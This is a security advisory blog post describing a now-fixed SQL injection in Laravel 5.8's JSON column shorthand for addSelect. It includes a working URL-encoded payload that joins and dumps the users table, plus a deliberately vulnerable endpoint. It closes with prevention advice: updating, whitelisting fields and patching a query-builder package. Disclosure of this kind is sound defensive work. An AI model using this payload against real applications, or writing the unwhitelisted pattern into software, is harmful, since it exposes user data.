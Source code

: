 **Important**: this vulnerability has been fixed and merged in [the 5.8 branch](*https://github.com/laravel/framework/pull/28160).

Laravel has the ability to manually specify which columns to select on a query.
It also offers a nice shorthand to work with JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') FROM blogs;
```

Instead of manually writing `JSON_EXTRACT`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `JSON_EXTRACT` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail, but what about the next one?

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, here is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Users of this API might only be interested in a few fields, 
that's why we added a `fields` filter.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

What if we inserted our malicious code instead?

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to write to the `addSelect` or `select`.
Chances are you're not doing this manually in your project.
Though there are popular packages which allow this functionality to provide easy API endpoints.
A popular spec that inspires lots of API related packages is the JSON API spec. It specifically allows for [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets).
- The entry point table must have a column with JSON data. 
Otherwise the `JSON_EXTRACT` function will fail, stopping our query. 
From the entry point though, you can access all data.

## Prevention?

Be sure you update to the latest Laravel 5.8 version, as soon as the fix has been tagged.
It's already [merged](*https://github.com/laravel/framework/pull/28160), but not yet tagged.

Even more importantly, you should never allow user input directly to specify columns, without a whitelist.
In our previous example, you could specify which fields are allowed to be requested, instead of accepting all input.

Lastly, one of our widely-used packages, `spatie/laravel-querybuilder`, 
opened up `addSelect` by design. 
This meant that websites using our package, were vulnerable to the underlying issue.
We immediately fixed it and Freek [wrote about it](*https://murze.be/an-important-security-release-for-laravel-query-builder) in depth.
If you're using our package and unable to update to the latest Laravel version, 
you should immediately update the package.
